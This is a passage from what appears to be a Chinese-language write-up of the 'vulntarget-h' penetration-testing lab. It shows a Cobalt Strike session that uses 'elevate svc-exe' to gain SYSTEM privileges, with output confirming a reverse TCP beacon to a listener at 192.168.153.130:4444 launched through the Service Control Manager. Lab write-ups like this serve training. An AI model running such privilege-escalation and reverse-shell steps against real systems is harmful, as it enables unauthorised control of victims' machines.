 ![Screenshot_2022-07-02_12_27_30.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_12_27_30.png)

+ 提升到SYSTEM权限。

```bash
beacon> elevate svc-exe b_192.168.153.130
[*] Tasked beacon to run windows/beacon_reverse_tcp (192.168.153.130:4444) via Service Control Manager (\\127.0.0.1\ADMIN$\ba77d60.exe)
[+] host called home, sent: 285738 bytes
[+] host called home, sent: 1819 bytes
[+] received output:
Started service ba77d60 on .
```

![Screenshot_2022-07-02_12-30-57.png](../images/vulntarget-h%20write-up/Screenshot_2022-07-02_12-30-57.png)
